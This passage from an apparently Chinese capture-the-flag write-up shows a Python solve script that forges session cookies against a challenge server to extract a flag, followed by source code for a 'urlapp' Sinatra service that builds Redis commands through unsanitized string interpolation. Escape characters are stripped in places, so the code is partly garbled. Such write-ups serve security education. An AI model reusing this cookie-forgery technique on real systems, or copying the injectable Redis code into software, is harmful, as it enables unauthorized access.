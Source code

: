 ```
    secret = b'\xe4xed}wxfd3xdcx1fxd72x07/Cxa9I'
    url = 'http://3.112.201.75:8001/'

    pat = r"&lt;li&gt;&lt;a href="/note/(d+)"&gt;.*s+&lt;hr&gt;"
    flag = ''

    for i in range(0, 40):
        cookie = gen_cookie(i)
        resp = requests.get(url, proxies=proxy, cookies={'session': cookie})

        find = re.findall(pat, resp.text)
        if find:
            flag += chr(int(find[0]) + 1)

        print(flag)
```

### <a class="reference-link" name="urlapp"></a>urlapp

题目源码：

```
require 'sinatra'
require 'uri'
require 'socket'

def connect()
  sock = TCPSocket.open("redis", 6379)

  if not ping(sock) then
    exit
  end

  return sock
end

def query(sock, cmd)
  sock.write(cmd + "rn")
end

def recv(sock)
  data = sock.gets
  if data == nil then
    return nil
  elsif data[0] == "+" then
    return data[1..-1].strip
  elsif data[0] == "$" then
    if data == "$-1rn" then
      return nil
    end
    return sock.gets.strip
  end

  return nil
end

def ping(sock)
  query(sock, "ping")
  return recv(sock) == "PONG"
end

def set(sock, key, value)
  query(sock, "SET #{key} #{value}")
  return recv(sock) == "OK"
```